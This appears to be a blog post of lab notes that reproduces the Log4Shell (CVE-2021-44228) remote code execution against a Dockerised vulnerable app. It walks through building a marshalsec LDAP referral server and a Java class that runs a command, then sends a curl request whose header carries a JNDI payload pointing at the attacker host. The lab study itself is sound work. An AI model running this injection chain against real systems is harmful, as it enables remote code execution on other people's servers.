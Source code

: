 ```yaml
---
layout: post
title: CVE-2021-44228 Log4j Vuln Notes
tags: CVE-2021-44228 Log4j Vuln Notes
categories: CVE-VULNS
---
```


![Image](/img/cve-2021-44228-top.png)

## Installing Vulnerable Machine on the Ubuntu Machine (10.250.1.60)

I will be use thess documents (**https://github.com/christophetd/log4shell-vulnerable-app** , **https://github.com/mbechler/marshalsec** and **https://github.com/xiajun325/apache-log4j-rce-poc/** ) to build CVE-2021-44228 vulnerable machine. Firsting firt i am starting to install docker on that machine.

#### **Docker İnstall On The Vulnerable Machine (10.250.1.60)**


- `sudo apt update`
- `sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`
- `curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`
- `sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu  $(lsb_release -cs)  stable"`
- `sudo apt update`
- `sudo apt-get install docker-ce`
- `docker --version`
- `sudo systemctl start docker`
- `sudo systemctl enable docker`
- `sudo systemctl status docker`

![Image](/img/docker.png)

#### **Installing Vulnerable Machine (10.250.1.60)**

- `cd /tmp`
- `sudo git clone https://github.com/christophetd/log4shell-vulnerable-app`
- `cd log4shell-vulnerable-app/`
- `sudo docker build . -t vulnerable-app`
- `sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app`

![Image](/img/installing.png)
![Image](/img/installing2.png)
![Image](/img/installing3.png)

---

## **Prepare Attacker Machine (10.250.1.61)**

#### **Install Java JDK On the Attacker Machine**

- `cd /tmp`
- `sudo apt update`
- `sudo apt-get install default-jdk`
- `wget http://mirrors.rootpei.com/jdk/jdk-8u181-linux-x64.tar.gz`
- `tar zxvf jdk-8u181-linux-x64.tar.gz`
- `sudo mv ./jdk1.8.0_181 /usr/lib/jvm`
- `sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1`
- `sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1`
- `sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1`
- `sudo update-alternatives --config java` **choose the 1.8.0_181**
- `sudo update-alternatives --config javac`
- `sudo update-alternatives --config javaws`

```
sudo vim /etc/environment

# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/usr/lib/jvm/jdk1.8.0_181/bin:/usr/lib/jvm/jdk1.8.0_181/db/bin:/usr/lib/jvm/jdk1.8.0_181/jre/bin"
J2SDKDIR="/usr/lib/jvm/jdk1.8.0_181"
J2REDIR="/usr/lib/jvm/jdk1.8.0_181/jre*"
JAVA_HOME="/usr/lib/jvm/jdk1.8.0_181"
DERBY_HOME="/usr/lib/jvm/jdk1.8.0_181/db"
```

- `echo $JAVA_HOME`

- `java -version`

![Image](/img/java_ver.png)

---

#### **Prepare LDAP Referrer Server on The Attacker**

- `cd /tmp`
- `sudo apt install maven`
- `git clone https://github.com/mbechler/marshalsec`
- `cd /tmp/marshalsec`
- `sudo mvn clean package -DskipTests`
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.250.1.61:8000/#Log4jRCE"`

![Image](/img/ldap.png)

#### **Prepare Malicious Java Code On The Attacker**

- `mkdir /tmp/poc`
- `cd /tmp/poc`

```
vim Log4jRCE.java

public class Log4jRCE {

    static {
        try {
            String[] cmd = {"code"};
            Runtime.getRuntime().exec("touch /tmp/pwned").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- `javac Log4jRCE.java`

- `sudo python3 -m http.server`

![Image](/img/javac.png)

#### **Exploit The Target Machine From The Attacker**

![Image](/img/exploitt.png)

- `curl 10.250.1.60:8080 -H 'X-Api-Version: ${jndi:ldap://10.250.1.61:1389/Basic/Command/Base64/dG91Y2ggL2V0Yy9wd25lZDE=}'`

#### **Verify on the Victim Machine wheater code execution**

- `sudo docker exec vulnerable-app ls /tmp`

![Image](/img/pwned.png)

